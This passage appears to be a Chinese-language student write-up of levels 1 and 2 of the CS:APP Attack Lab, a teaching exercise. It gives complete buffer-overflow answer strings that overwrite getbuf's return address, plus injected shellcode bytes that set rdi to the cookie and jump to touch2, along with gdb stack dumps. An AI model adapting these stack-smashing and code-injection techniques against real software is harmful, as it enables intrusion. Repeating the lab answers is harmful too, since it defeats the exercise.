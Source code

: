 查看getbuf()函数  其分配的栈大小为0x28  将其填满，再溢出8字节后修改了返回地址 将其设置为touch1的地址即可

答案如下：

```
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00    
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
c0 17 40 00 00 00 00 00  /* 00000000004017c0 touch1地址 */
```

修改后的栈区和返回地址如下：

```
(gdb) x/6gx $rsp
0x5561dc78:     0x0000000000000000      0x0000000000000000
0x5561dc88:     0x0000000000000000      0x0000000000000000
0x5561dc98:     0x0000000000000000      0x00000000004017c0
```

==注意到注入代码（即输入的字符串）是从栈顶（低地址）开始写入的；**返回地址修改时，要注意将地址反着填写**==

#### level2

```c
void touch2(unsigned val)
{
	vlevel = 2; /* Part of validation protocol */
	if (val == cookie) {
		printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2);
	} else {
		printf("Misfire: You called touch2(0x%.8x)\n", val);
		fail(2);
 	}
	 exit(0);
 }
```

要求执行到```printf("Touch2!: You called touch2(0x%.8x)\n", val);```

本题还是利用gets读取溢出 从而修改栈中返回地址 将该地址指向注入代码（0x5561dc78） 

在注入代码中实现修改变量val（将cookie赋给rdi即可）  并通过ret继续操控跳转方向（push ret)  (ret 是将栈顶值作为返回地址)

先写.s文件，汇编后生成.o文件，再反汇编生成.d文件，.d文件中有我们需要的指令代码

答案如下：  

```
48 c7 c7 fa 97 b9 59 	    /* mov    $0x59b997fa,%rdi  (attack code,adr:5561dc78) */ 
68 ec 17 40 00       	    /* pushq  $0x4017ec  */ 
c3                   	    /* retq           */ 
00 00 00                    /* 16bytes */ 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00                                  
78 dc 61 55 00 00 00 00     /* modify getbuf return adr ->5561dc78 */ 
```
